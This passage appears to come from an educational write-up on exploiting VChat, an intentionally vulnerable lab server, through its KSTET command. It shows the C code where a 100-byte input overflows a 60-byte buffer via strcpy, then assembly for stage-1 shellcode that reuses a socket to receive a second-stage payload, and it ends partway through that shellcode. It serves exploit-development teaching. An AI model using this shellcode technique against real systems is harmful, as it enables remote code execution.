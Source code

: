 > [!NOTE]
> We omit repetitive rows representing ineffective mitigation strategies as their cases are already covered.
## VChat and Exploit Code

### VChat Code
As with the previous exploits, the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.


Below is the code segment that handles the `KSTET` message type.
```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
	char* KstetBuf = malloc(100);
	strncpy(KstetBuf, RecvBuf, 100);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function2(KstetBuf);
	SendResult = send(Client, "KSTET SUCCESSFUL\n", 17, 0);
}
```
The buffer we copy to is only 100 bytes, and by using the [`strncpy(char * destination, const char * source, size_t num )`](https://cplusplus.com/reference/cstring/strncpy/) function, we guarantee we will only copy 100 bytes from the source into the destination buffer. This prevents buffer overflows as we limit the number of characters copied not by the size of the source but based on something we specify. Then, to prevent malicious code from existing in memory, as the original Vulnserver did not free the receiving buffer, the line `memset(RecvBuf, 0, DEFAULT_BUFLEN);` zeros out the receiving buffer. Then the code calls `Function2(...)`; this is where the overflow occurs.

```c
void Function2(char* Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Within `Function2(char* input)` we copy the buffer that possibly contains 100 bytes, into a locally declared buffer that has 60 bytes of space allocated. As we use the [`strcpy(char * destination, const char * source)`](https://cplusplus.com/reference/cstring/strcpy/) function, this copies from the source (100 bytes) to the destination buffer (60 bytes) until a null terminator is detected in the source buffer.

### Shellcode
The resulting shellcode is shown below:
```s
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
						; overwriting our shellcode
xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
socket_loop:            ; Brute Force Loop Label
xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
push ebx                ; Push `len` parameter, this is 1024 bytes
mov ebx,esp             ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
						; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
mov eax,0x74F123A0      ; We need to make EAX = 0x74F123A0 but we can't inject if there are null bytes in this.
                        ; Since there are none we do not need to do any shifting
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
```